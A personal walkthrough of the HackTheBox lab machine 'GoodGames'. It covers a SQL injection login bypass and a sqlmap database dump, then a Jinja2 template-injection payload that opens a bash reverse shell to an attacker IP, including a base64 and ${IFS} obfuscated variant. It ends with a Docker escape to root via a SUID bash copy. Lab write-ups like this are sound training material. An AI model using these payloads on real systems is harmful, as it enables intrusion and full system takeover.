 # This is the Writeup of the HackTheBox machine "GoodGames"

Well hello there! I just finished another HackTheBox machine called "GoodGames" and I decided to make my own writeup to better understand everything that has happened during my pwning. I have learned a couple of new things that honestly I thought work differently, but without further ado, let's start B)

The challenge obviously starts with doing an nmap scan. For this, I really like to use this command : `nmap -sV -Pn -sC -v -p- -oN scan 10.10.11.130` as `-sV` enables version detection, `-Pn` disables host discovery and treats all hosts as online, `-sC` enables script scanning using the default set of Nmap scripts, `-v` makes the output more verbose, `-p-` indicates that all ports will be scanned and `-oN scan` specifies the format and location for the output (that in this case is called "scan").

```Nmap scan report for 10.10.11.130
Host is up (0.023s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-title: GoodGames | Community and Store
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb
```


**Don't forget to add goodgames.htb to your /etc/hosts !!!**

Well, the scan didn't show much, so we begin to poke around the main site. What is interesting (for hackers, obviously...) is the login form. We need to provide email and password to be logged into our account. At first, I spend some time poking around with JWT tokens - but it was not the correct way of thinking. I gave up on trying to bruteforce/guess admin's password, as for logging we were using email address, which I didn't know (at this point). After looking up other writeups, it turned out that I should have tried the infamous **SQL INJECTION**. Apparently, even though we had to provide email address in loging form, if we used typical SQL injection payload `email=admin' or 1=1 -- -` we still got logged in as admin (sick!). Now that's a surprise! If we were able to exploit the `email` field with our famous payload, we could test it using tool called `sqlmap`. All we had to do was to intercept our burp request during loging, save it as `request.txt` and then use command like `sqlmap -r request.txt`. This results in a dumped database with usernames and password hashes. Bingo! Now we just need to crack the admin's password and we are ready to go!

I used one of my favourite sites for cracking common passwords: https://crackstation.net. It turns out that our admin uses a really weak password: "superadministrator". This is pathetic... But now we are able to log into the admin's account and try to find a way to mess things up. 
In admin's panel, we can find info about another site called `internal-administration.goodgames.htb` - **Remember to add this address to your /etc/hosts !!!** After visiting this page, we are greeted by a big login form called "_Flask Volt_". **_Remember that Flask is a web application framework written in python!_** I wonder... What if our admin was really lazy and used the same password couple of times? \n
Bingo!
We can log into the app!

Here comes the tricky part. I want to be completely honest with you, I lost my patience and looked up what to do next on some another writeup. But hey, that's probably why you are here! That's nothing to be ashamed of, we all have been there. At the end of the day, by overcoming new obstacles, you're learning many valuable things. But anyway - back to the point :)

In the `settings` section, you are able to set you username, date of birth and phone number. And remember this one thing: **IF YOU ARE PENTESTING A PYTHON ENVIRONMENT, THERE IS A BIG CHANCE OF _SSTI_ VULNERABILITY**. I'm not even a pentester, but that's how life works. If you see python - it will be either SSTI or some other deserialization. But now, when I am writing this writeup, it is easy to say I guess...
Well, back to the point. If you try a payload in a name field to be `{{7*7}}`, the generated name will be `49`. That's nice, we found vulnerability. Now you need to identify the Template Engine. There is a couple of ways to do this, but I really like this article: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
If you identify it correctly, you will know that we have just found the Jinja2 Template Engine! Now, let's craft a payload.
The most common payload looks like this: `{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/<ip>/<port> 0>&1').read()}}`, unfortunately, when I tried this, it didn't work. So, good way of thinking is to base64 encode our payload and use `${IFS}` as a `space` character. If we base64 encode our `bash -i >& /dev/tcp/<ip>/<port> 0>&1` part, our final payload would look like this: `{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}<BASE64 ENCODED PART>${IFS}|base64${IFS}-d${IFS}|bash').read()}}`.  
Pheeew, that was intense!  
Now let's setup a netcat listener using command `nc -lvnp 1337`, change name in the app to the previously given payload, and wait for magic to happen. Badaboom!  
We just landed our reverse shell!  
But what has happened?? Why are we root immediately?? Why is there no root.txt flag??? I'll explain! We are in a docker container. You can know this after seeing that after using `ls -la`, you see the user id's instead of user name's when listing files. Also, when you use `mount` command, you can see that there is "augustus" home directory mounted to this docker. Let's check the IPv4 of our container! Hmmmm... Why is it 172.19.0.2 instead of 172.19.0.1? Is there something running on the 172.19.0.1? There is only one way to find out! And maybe, just maybe our user is really, really lazy, and has used the same password third time!? But to do this, we need to be able to use `ssh`. Now we are not. Try this command: `script /dev/null bash`. It will start a new interactive Bash shell session, but all the input and output of the session will be discarded. Now, after `ssh augustus@172.19.0.1` and using the same password as before, we are able to log in as augustus.  

The last part of our journey is getting root access. Again, when you have access to a docker container with a mounted filesystem or ability to mount, you will probably need to clone a binary like /bin/bash and give it the SUID bit or something like this. So that's exactly what we will do! Let's go to the augustus home directory and copy the /bin/bash binary (`cp /bin/bash .`). Now let's use `logout` to go back to docker container. Look at this! There is our copied bash binary and we have root access and complete freedom in modyfing it's permissions! So nw, let's change the owner of this binary: `chown root:root bash`, then let's add SUID bit: `chmod s+u bash`. Now let's log again as augustus and if we did everything perfectly, you should be able to execute bash binary from augustus home directory with elevated privileges. If you execute `./bash -p`, you should become _root_.  

Thank you so much for reading this writeup. This means a lot to me and I hope you learned something new, as I certainly did :) If you have any suggestions please write to me and I'll try to make my writeups better and better. See you!


